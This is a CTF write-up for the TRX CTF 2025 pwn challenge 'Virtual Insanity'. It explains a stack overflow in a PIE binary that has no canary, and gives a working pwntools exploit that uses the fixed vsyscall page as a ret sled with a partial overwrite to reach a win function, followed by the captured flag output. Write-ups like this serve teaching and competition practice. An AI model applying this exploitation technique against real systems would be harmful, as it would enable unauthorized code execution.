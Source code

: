 ---
title: "[WRITE UP] - TRX CTF 2025"
description: 'Yet another CTF, another writeup!'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-03-13
tags: ['2025', 'WriteUp', 'PWN']
authors: ['kdot']
draft: false
---

# Virtual Insanity

## Description

Dancing, Walking, Rearranging Furniture

DISCLAIMER: This challenge doesn't require brute-forcing

## Analysis

First, we will need to use `checksec` to know what `security method` is applied to this binary

```sh
[*] '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

So we can see that the binary has `PIE` and no `Canary`, dive into the source code we know that there is a `win` function which we can let the program return to after finishing the `main` function

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

But the problem here is this binary has `PIE`, and there is no way for us to `ret2win` in a manual way, how about `Stack Pivot`? Still no because the `puts` function is above `read` function and there is `FULL RELRO` so this is impossible to leak the address too. We can think of `Partial Overwrite`, but this way is still impossible because the `main` function calls first, and when it returns, it will return to the function that called it (as known as `__libc_start_call_main()`) to exit.

![alt text](../../img/TRX/image-1.png)

It feels pretty hopeless because there's no way to exploit it huh? But once we look carefully we know that there is `vsyscall` mapping page. The `vsyscall` partition is only visible when we enable `emulate` mode for the kernel.

For `wsl2` we can reconfigure the `.wslconfig` file to make it visible to us

```sh
[wsl2]

processors=2

kernelCommandLine = vsyscall=emulate

[experimental]
sparseVhd=true
```

And for `Ubuntu` we can use
```sh
cat /proc/self/maps | grep vsyscall
echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
update-grub
reboot
```

And when we finish and check `vmmap` again we can see it

![alt text](../../img/TRX/image.png)

By reading this [article](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html), we can understand the purpose and functionality of `vsyscall` and `vDSO`. In short, `vsyscall` (`virtual system call`) is a mechanism in the Linux kernel designed to speed up certain system calls. The kernel maps a special memory page into user space, which contains predefined variables and implementations of specific system calls. One notable characteristic of `vsyscall` is that its address is `static`, meaning it is not affected by `PIE`. And as we can see in `__vsyscall_page` symbol which is defined in [vsyscall_emu_64.S](https://codebrowser.dev/linux/linux/arch/x86/entry/vsyscall/vsyscall_emu_64.S.html)

```S
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_time, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_getcpu, %rax
    syscall
    ret
```

We can see that certain system calls (`gettimeofday`, `time`, `getcpu`) are implemented within the `vsyscall` page, each containing a `ret` instruction. The starting address of the `vsyscall` page is always `0xffffffffff600000`, as it remains static. Because of this, `glibc` knows the exact addresses of all virtual system call handlers. These addresses are defined in the `glibc` source code as follows:

```c
#define VSYSCALL_ADDR_vgettimeofday   0xffffffffff600000
#define VSYSCALL_ADDR_vtime           0xffffffffff600400
#define VSYSCALL_ADDR_vgetcpu         0xffffffffff600800
```

All virtual system call requests are handled within the `__vsyscall_page`, using an offset based on `VSYSCALL_ADDR_vsyscall_name`. The system call number is placed into the `rax` register, and then the native `syscall` instruction for `x86_64` is executed.

## Exploit Development

So with that information about `vsyscall` we can easily take advantage of the `ret` instruction, to let the program return to `rsp+0x10` (in case we stopped at main `ret`)

```sh
00:0000│ rsp 0x7fffffffdc38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffdc40 ◂— 0
02:0010│     0x7fffffffdc48 —▸ 0x5555555551da (main) ◂— endbr64
03:0018│     0x7fffffffdc50 ◂— 0x1ffffdd30
04:0020│     0x7fffffffdc58 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
05:0028│     0x7fffffffdc60 ◂— 0
06:0030│     0x7fffffffdc68 ◂— 0xacb58eb5d2e91dc3
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
```


So our exploit will look like this:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+109
        c
        '''.format(**locals()), *a, **kw, env={"FLAG": r"TRX{example_flag}"})
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, env={"FLAG": r"TRX{example_flag}"})

p = start()

# ==================== EXPLOIT ====================

'''
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000               mov    rax, 0x60     RAX => 0x60
0xffffffffff600007               syscall
0xffffffffff600009               ret
'''

def exploit():


  offset = 40
  vsyscall = 0xffffffffff600000

  payload = b'A' * offset
  payload += p64(vsyscall) * 2
  payload += p8(0xa9)

  s(payload)

  interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/TRX_CTF/dist
$ ./xpl.py REMOTE virtual.ctf.theromanxpl0.it 7011
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to virtual.ctf.theromanxpl0.it on port 7011: Done
[*] Switching to interactive mode
You pathetic pwners are worthless without your precious leaks!!!
IMPOSSIBLE! GRAHHHHHHHHHH
TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}
[*] Got EOF while reading in interactive
```
